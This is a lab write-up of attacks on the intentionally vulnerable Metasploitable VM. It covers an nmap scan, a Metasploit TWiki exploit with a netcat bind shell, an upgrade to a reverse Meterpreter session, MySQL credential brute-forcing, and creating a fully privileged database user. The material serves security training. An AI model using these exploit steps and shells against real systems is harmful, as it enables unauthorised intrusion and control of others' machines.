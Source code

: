 # Writeup

> The Metasploitable virtual machine is an intentionally vulnerable version of Ubuntu Linux designed for testing security tools and demonstrating common vulnerabilities.

In this writeup, we will try to find most of the security issues affecting the VM.

## I. Recon

A quick nmap scan gives us :

```
nmap 192.168.195.128  

Starting Nmap 7.60 ( https://nmap.org ) at 2018-06-02 17:13 CEST
Nmap scan report for 192.168.195.128
Host is up (0.0019s latency).
Not shown: 977 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 4.47 seconds
```

We can see that many services are running on this machine, let's start with the web server running on port 80.

# II. Apache

We quickly learn that the web server is Apache 2.2.8. It use PHP 5.2.4 and there is, at the root of the server, a page that contains 5 links to 5 differents apps :

* TWiki
* phpMyAdmin
* Muttilidae
* DVWA
* WebDAV

## TWiki

TWiki is a perl-based web application used to run a collaborative platform. The last stable release is 6.0.2 (released in 2015) but the server run a version that dates back to 2003. 

A little google search reveals quite a few RCE like CVE-2004-1037 and CVE-2008-5305.

Let's have a closer look at these vulnerability by searching if there is any existent metasploit module in relation to TWiki.

```
$ msfconsole 

msf > search twiki

Matching Modules
================

   Name                                    Disclosure Date  Rank       Description
   ----                                    ---------------  ----       -----------
   exploit/unix/http/twiki_debug_plugins   2014-10-09       excellent  TWiki Debugenableplugins Remote Code Execution
   exploit/unix/webapp/moinmoin_twikidraw  2012-12-30       manual     MoinMoin twikidraw Action Traversal File Upload
   exploit/unix/webapp/twiki_history       2005-09-14       excellent  TWiki History TWikiUsers rev Parameter Command Execution
   exploit/unix/webapp/twiki_maketext      2012-12-15       excellent  TWiki MAKETEXT Remote Command Execution
   exploit/unix/webapp/twiki_search        2004-10-01       excellent  TWiki Search Function Arbitrary Command Execution
```

The module `exploit/unix/webapp/twiki_history` seems interesting.

```
msf> use exploit/unix/webapp/twiki_history
msf exploit(unix/webapp/twiki_history) > set RHOST 192.168.195.128
msf exploit(unix/webapp/twiki_history) > set payload cmd/unix/bind_netcat
msf exploit(unix/webapp/twiki_history) > exploit -j
[*] Started bind handler
[*] Command shell session 1 opened (192.168.195.1:56970 -> 192.168.195.128:56789) at 2018-06-03 13:29:23 +0200
```

We get an unix shell, whith `post/multi/manage/shell_to_meterpreter`, we can upgrade this shell to a Meterpreter one.

```
msf exploit(unix/webapp/twiki_history) > use post/multi/manage/shell_to_meterpreter 
msf post(multi/manage/shell_to_meterpreter) > set SESSION 1
msf post(multi/manage/shell_to_meterpreter) > set LHOST 192.168.195.1
msf post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.195.1:4433 
[*] Sending stage (853256 bytes) to 192.168.195.128
[*] Meterpreter session 3 opened (192.168.195.1:4433 -> 192.168.195.128:46146) at 2018-06-03 13:32:10 +0200
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
meterpreter > getuid
Server username: uid=33, gid=33, euid=33, egid=33
```

So we get a nice shell, let's move on now to another web app.

## Phpmyadmin and MySQL

We can assume that phpmyadmin is backed by MySQL that is listening on port 3306.

Let's try to use `auxiliary/scanner/mysql/mysql_login` with a small pass file (500 most commons) to brute-force the MySQL credentials.

```
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(scanner/mysql/mysql_login) > set USERNAME root
msf auxiliary(scanner/mysql/mysql_login) > set PASS_FILE ~/Desktop/Tools/500.txt
msf auxiliary(scanner/mysql/mysql_login) > set RHOSTS 192.168.195.128
msf auxiliary(scanner/mysql/mysql_login) > set BLANK_PASSWORDS true
msf auxiliary(scanner/mysql/mysql_login) > run

[+] 192.168.195.128:3306  - 192.168.195.128:3306 - Found remote MySQL version 5.0.51a
[!] 192.168.195.128:3306  - No active DB -- Credential data will not be saved!
[+] 192.168.195.128:3306  - 192.168.195.128:3306 - Success: 'root:'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

So the MySQL root password is blank... But we can't connect as root with phpmyadmin, maybe it does not permit to login as root. However, we are able to connect to the db with `mysql -u root -h 192.168.195.128 -P 3306 -p --skip-ssl`.
With that, we create a new user and grant him all privileges : 

```
mysql> create user 'user' identified by 'password';
Query OK, 0 rows affected (0,00 sec)

mysql> grant all privileges on * to 'user';
Query OK, 0 rows affected (0,00 sec)

mysql> flush privileges;
Query OK, 0 rows affected (0,00 sec)
```

We can now login with this user on phpmyadmin.

## Multidae

> OWASP Mutillidae II is a free, open source, deliberately vulnerable web-application providing a target for web-security enthusiast. 




